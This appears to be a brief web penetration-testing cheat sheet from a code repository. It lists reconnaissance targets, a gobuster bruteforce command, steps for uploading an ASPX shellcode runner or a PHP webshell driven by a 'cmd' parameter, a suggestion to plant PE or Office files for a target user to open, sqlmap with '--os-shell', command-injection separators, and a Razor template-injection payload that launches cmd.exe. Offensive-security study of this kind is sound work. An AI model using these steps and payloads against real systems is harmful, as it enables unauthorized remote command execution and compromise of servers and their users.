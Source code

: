 # Web

## Reconnaissance

### Architecture
* framework
* language
* middleware
* database
* template engine
* OSS
* API


### Crawling
* list path, parameters

### Directory Bruteforce
```bash
gobuster dir -u <url> -w /usr/share/seclists/Discovery/Web-Content/common.txt 
```

## Execution
### File Upload
* ASPX
1. upload `runner/shellcode.aspx`
2. access the uploaded aspx file
3. submit shellcode in hex

* PHP
1. upload `webshell/shell.php`
2. access the uploaded php file with `cmd` parameter

* Others
upload pe or office file.target user may open it.

### SQL Injection
* Error-Based
* Time-Based
* Automation
```bash
sqlmap -u "<url>" --os-shell
```

### OS Command Injection
* try `|` ,`||`, `&&`, `;`


### Server-Side Template Injection
* Razor
```razor
@(4*4)
@System.Diagnostics.Process.Start("cmd.exe","/c <command>");
```

